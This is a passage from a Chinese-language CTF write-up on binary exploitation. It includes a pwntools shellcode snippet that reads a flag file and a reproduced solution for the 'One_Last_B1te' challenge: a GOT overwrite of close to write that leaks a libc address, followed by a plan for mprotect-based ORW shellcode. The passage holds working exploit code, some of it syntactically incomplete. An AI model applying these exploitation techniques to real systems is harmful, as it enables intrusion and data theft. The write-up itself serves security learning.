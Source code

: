 ```python
'''
shellcode = rsp
shellcode += shellcraft.openat(-100, "./flag", 0, 0)
shellcode += shellcraft.sendfile(1, 3, 0, 0x100

payload = asm(shellcode)
p.sendlineafter(b'World!', payload)

p.interactive()
```
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241031090010.png)
复现的时候没有环境了，这个flag是我自己编写的。
### One_Last_B1te(复现)
看了`wp`后知道可以把`close`的`got`表改为`write`的从而泄露栈上数据来获取`libcbase`，由于开启了`sandbox`限制了一些`system`的使用，后面采用`orw`的方法来将`flag`泄露出来。
过程：
在第一次输入时输入`close`的`got`表，第二次输入单字节时刚好将其修改为`write`的`plt`，之后执行`close`时可以将栈上数据泄露出来：
```python
ret = 0x40101a
close_got = elf.got['close']
write_plt = elf.plt['write']
main_sym = elf.symbols['main']

p.sendafter(b'number :', p64(close_got))
p.sendafter(b'byte :', b'\xc0')

payload = b'a' * 0x18 + p64(ret) + p64(main_sym)

p.send(payload)

p.recvuntil(b'a' * 0x18)
p.recv(0xb8 - 0x18)
real_main = u64(p.recv(6) + b'\x00\x00') - 139
base = real_main - libc.symbols['__libc_start_main']
log.success('real_main: ' + hex(real_main))
log.success('base: ' + hex(base))
```
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241031163320.png)
可以看到泄露了很多，在gdb中查看找到有用的部分
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241031163333.png)
计算偏移可以算出`__libc_start_main`的真实地址，根据给出的`libc`文件可以算出`libcbase`。
有了`libcbase`可以利用偏移计算出我们需要的函数和`gadget`的地址从而加以使用。要使用`shellcode`型的`orw`我们首先需要一段有权限的位置，可以用`mprotect`函数，要构造这个函数需要三个参数，分别存在`rdi,rsi,rdx`中，`wp`中说当前版本`libc`不容易控制`rdx`，故用`xchg eax, edx`来设置`rdx`，设置完有权限的位置后还需要用read来将shellcode读入相应位置。然后编写`orw`的`shellcode`将`flag`的值泄露。
完整exp:
```python
from pwn import *
import pwnlib.gdb
import pwnlib.shellcraft

context(arch='amd64', os='linux', log_level='debug')
local = True
if local:
    p = process('./onelast')
    pwnlib.gdb.attach(p, 'b *0x4013c3')
else:
    p = remote('39.106.48.123', 27653)

elf = ELF('./onelast')
libc = ELF('./libc.so.6')

```